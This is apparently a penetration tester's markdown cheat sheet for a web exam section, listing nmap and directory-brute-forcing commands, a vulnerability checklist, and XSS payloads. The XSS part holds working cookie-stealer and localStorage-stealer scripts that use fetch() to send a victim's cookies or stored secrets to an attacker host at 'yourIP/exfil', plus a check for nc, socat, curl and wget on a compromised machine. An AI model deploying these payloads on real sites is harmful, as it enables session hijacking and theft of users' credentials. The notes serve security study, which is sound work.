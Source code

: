 # web200

### Discovery
* sudo nmap -v -sS -sV -Pn -A ip_addr
* File / directory discovery (note sometimes you also want to dirbust more than just the web root ie dirbusting against http://site/login.php/FUZZ)
	*  wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 301,404,403 http://site/FUZZ (<b>FOR DIRECTORIES</b> use raft-large-directories.txt)
	* dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u URL --full-url (add -e extension such as -e php for specific extension targeting) (<b>FOR DIRECTORIES</b> use raft-large-directories.txt)
	* dirb (with php extension, ignore 403, and milliseconds throttled to 100) - dirb http://host/ raft-medium-directories.txt -N 403 -X .php -z 100
	* dirb http://host/
	* gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301
	* gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

* Pw / Username discovery - cewl - `cewl -d 2 -m 5 -w docswords.txt https://example.com`
* Binary discovery on box: ` which nc socat curl wget bash sh`
## Test All Of These Scenarios!
- [ ] cewl/dirsearch
- [ ] xss
- [ ] xss w/cross origin
- [ ] SQLi
- [ ] LFI/Directory Traversal
- [ ] XXE
- [ ] SSTI
- [ ] OS injection
- [ ] Server Side Request Forgery
### XSS (All code here is from the course material / notes)
<b>Remember ALL CODE CAN BE TESTED IN CONSOLE IN CASE OF DEBUGGING</b>
* Discovery
	* `<script>alert(1)</script>`
	* `<img src=foo onerror=alert(1)/>`

* External JS file
	* From an external source (python webserver):
	<b>xss.js</b>
		```
		alert(1)
		```
		Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`
* Cookie Stealer
	* From an external source (python webserver):
	<b>xss.js</b>
		```
		let cookie = document.cookie 
		let encodedCookie = encodeURIComponent(cookie)
		fetch("http://yourIP/exfil?data=" + encodedCookie)
		```
		Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`
* Local Storage Secrets Stealer
	* From an external source (python webserver):
	<b>xss.js</b>
		```let data = JSON.stringify(localStorage) //can also use sessionStorage
		let encodedData = encodeURIComponent(data)
		fetch("http://yourIP/exfil?data=" + encodedData)```